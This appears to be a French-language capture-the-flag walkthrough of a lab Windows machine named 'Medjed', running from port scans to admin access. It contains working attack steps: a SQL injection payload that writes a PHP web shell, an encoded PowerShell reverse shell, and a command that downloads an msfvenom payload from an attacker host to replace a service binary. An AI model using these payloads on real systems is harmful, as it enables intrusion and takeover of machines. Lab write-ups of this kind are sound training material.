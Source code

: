 # Medjed

	sudo masscan -p1-65535,U:1-65535 192.168.174.127 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.174.127 -oN nmap.txt
	feroxbuster --silent -u http://192.168.174.127:8000/
	
Scans classiques.

    PORT STATE SERVICE VERSION  
    135/tcp open msrpc Microsoft Windows RPC  
    139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
    445/tcp open microsoft-ds?  
    3306/tcp open mysql?  
    5040/tcp open unknown  
    8000/tcp open http-alt BarracudaServer.com (Windows)  
    30021/tcp open ftp FileZilla ftpd 0.9.41 beta  
    33033/tcp open unknown  
    44330/tcp open ssl/unknown  
    45332/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    45443/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)  
    49664/tcp open msrpc Microsoft Windows RPC  
    49665/tcp open msrpc Microsoft Windows RPC  
    49666/tcp open msrpc Microsoft Windows RPC  
    49667/tcp open msrpc Microsoft Windows RPC  
    49668/tcp open msrpc Microsoft Windows RPC  
    49669/tcp open msrpc Microsoft Windows RPC
  

Sur la page http://192.168.174.127:8000/rtl/about.lsp on voit que ce site utilise BarracudaDrive 6.5 et il y a des exploits spécifiques à cette version, mais apparemment juste pour la phase d'élévation de privilèges : https://www.exploit-db.com/exploits/48789

Après la fin de mon scan Nmap j'ai remarqué le FTP sur le port 30021 et la connexion en anonyme semble autorisée : 

    ftp -A anonymous@192.168.174.127 -p 30021
    wget -r ftp://anonymous:""@192.168.174.127:30021/
    tree . -a

Rien d'intéressant dans les fichiers. 

Sur le port 44330 on trouve la version SSL du site. Sur les ports 45332 et 45443 on trouve un autre site avec un quiz étrange. Et sur le port 33033 on trouve un troisième site web avec six photos, dont un DevOps qui a une photo de chat : jerren.devops@company.com

Il y a une fonction de réinitialisation de mot de passe sur l'écran de login. En essayant avec "jerren.devops" pour le nom d'utilisateur et "paranoid" pour le reminder (mot venant de sa phrase de profil) cela fonctionne. 

J'arrive sur la page http://192.168.174.127:33033/users/4 où je vois directement une possibilité d'éditer le profil. Il y a un upload d'image et quelques champs à remplir. J'ai tenté plein d'uploads malicieux et plein de payloads malicieux mais la page semble être safe. 

En revanche il y a une autre option en bas : "Request Profile SLUG (experimental)"

Cette page contient un autre champ à remplir. Mais cette fois des payloads fonctionnent et font planter la page. Et il y a un traceback très précieux : 

        sql = "SELECT username FROM users WHERE username = '" + params[:URL].to_s + "'"
        ret = ActiveRecord::Base.connection.execute(sql)
        @text = ret
      end

C'est un cas assez classique d'injection SQL mais il n'y a pas de feedback permettant d'énumérer la base de données facilement donc il faut directement écrire dans une backdoor :

    ' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/backdoor.php'-- -'

Il n'y a plus qu'à exploiter la backdoor. Mais attention à bien aller la chercher sur l'autre site et non pas sur les routes de celui du port 33033 :

    curl 'http://192.168.174.127:45332/backdoor.php?cmd=whoami'
    curl 'http://192.168.174.127:45332/backdoor.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABO...8AcwBlACgAKQA%3D'
    ...
    rlwrap nc -nvlp 443
    type C:\Users\Jerren\Desktop\local.txt

### Élévation de privilèges 

Il suffit de reprendre l'exploit trouvé pendant la phase de reconnaissance, en l'adaptant un peu si on le souhaite :

    cd C:\bd
    ren bd.exe bd.exe.old
    iwr -Uri http://192.168.45.226/msfvenom.exe -Outfile C:\bd\bd.exe
    shutdown /r
    ...
    rlwrap nc -nvlp 9999
    type C:\Users\Administrator\Desktop\proof.txt

